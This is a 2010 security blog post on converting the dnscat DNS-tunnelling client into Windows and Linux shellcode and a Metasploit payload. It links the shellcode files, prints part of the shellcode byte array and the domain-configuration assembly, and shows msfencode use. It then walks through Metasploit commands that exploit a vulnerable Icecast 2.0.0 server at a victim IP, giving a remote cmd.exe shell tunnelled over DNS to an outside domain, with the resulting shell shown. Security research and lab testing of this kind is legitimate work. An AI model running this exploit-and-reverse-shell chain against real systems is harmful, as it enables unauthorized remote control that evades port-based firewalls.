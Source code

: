 ```yaml
---
id: 611
title: 'Weaponizing dnscat with shellcode and Metasploit'
date: '2010-03-18T08:50:52-05:00'
author: 'Ron Bowes'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=611'
permalink: /2010/weaponizing-dnscat-with-shellcode-and-metasploit
categories:
    - DNS
    - Hacking
    - Tools
---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode (or "weaponizing dnscat", as I enjoy saying). Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86 at a time, nor have I ever written shellcode, so this was an awesome learning experience. Most people start by writing shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes (for both Linux and Windows). Like I always say, go big or go home!  
  
If you just want to grab the files, here are some links:

- [Win32 shellcode - assembler](/blogdata/dnscat-shell-win32.asm)
- [Win32 shellcode - binary](/blogdata/dnscat-shell-win32)
- [Win32 shellcode - C array](/blogdata/dnscat-shell-win32.h)
- [Win32 Metasploit module](/blogdata/dnscat-shell-win32.rb)
- [Linux shellcode - assembler](/blogdata/dnscat-shell-linux.asm)
- [Linux shellcode - binary](/blogdata/dnscat-shell-linux)
- [Linux shellcode - C array](/blogdata/dnscat-shell-linux.h)

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:

```
svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make
```

That'll compile both the standard dnscat client/server and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it. I installed Cygwin, but you can compile the Windows shellcode on Linux or vice versa if you prefer. The output will be in samples/shellcode-\*/. A .h file containing the C version will be generated, as well:

```
$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
```

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:

```
 $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
```

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:

```
get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; 
<p>The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. </p>
<h2>Encoding with msfencode</h2>
<p>msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:</p>
$ msfencode -b "\x00"  dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)

<p>If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. </p>
<h2>Metasploit payload</h2>
<p>Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. </p>
<p>First, there are a number of caveats:</p>
```

- This is highly experimental
- This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the process
- This is set up as a single stage, right now, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities
- The dnscat server isn't part of Metasploit, yet, so you'll have to compile run it separately

That being said, it also works great when it's usable. The target I use for testing is [Icecast 2 version 2.0.0](http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe) (WARNING: don't install vulnerable software on anything important!), which is included on the SANS 560 and 504 CDs (thanks Ed!). It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

So, the steps you need to take are,

1. Install [Icecast2](http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe) on your victim machine (Win32)
2. Download the experimental dnscat [Metasploit module](/blogdata/dnscat-shell-win32.rb) and put it in your Metasploit directory (modules/payloads/singles/windows/)
3. Fire up a dnscat server on your authoritative DNS server (<tt>dnscat --listen</tt>) -- see the [dnscat wiki](/wiki/index.php/Dnscat) for more information
4. Run Metasploit (<tt>msfconsole</tt>) and enter the following commands:
```
msf > use exploit/windows/http/icecast_header

msf exploit(icecast_header) > set PAYLOAD windows/dnscat-shell-win32
PAYLOAD => windows/dnscat-shell-win32

msf exploit(icecast_header) > set RHOST 192.168.1.221
RHOST => 192.168.1.221

msf exploit(icecast_header) > set DOMAIN skullseclabs.org
DOMAIN => skullseclabs.org

msf exploit(icecast_header) > exploit
[*] Exploit completed, but no session was created.
```

Meanwhile, on your dnscat server, if all went well, you should see:

```
$ sudo ./dnscat --listen
Waiting for DNS requests for domain '*' on 0.0.0.0:53...
Switching stream -> datagram
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\Program Files\Icecast2 Win32>
```

You can type commands in, and they'll run just like a normal shell. Be warned, though, that it is somewhat slow, due to the nature of going through DNS.

## Why bother?

The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!

## Feedback

As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code.

Thanks!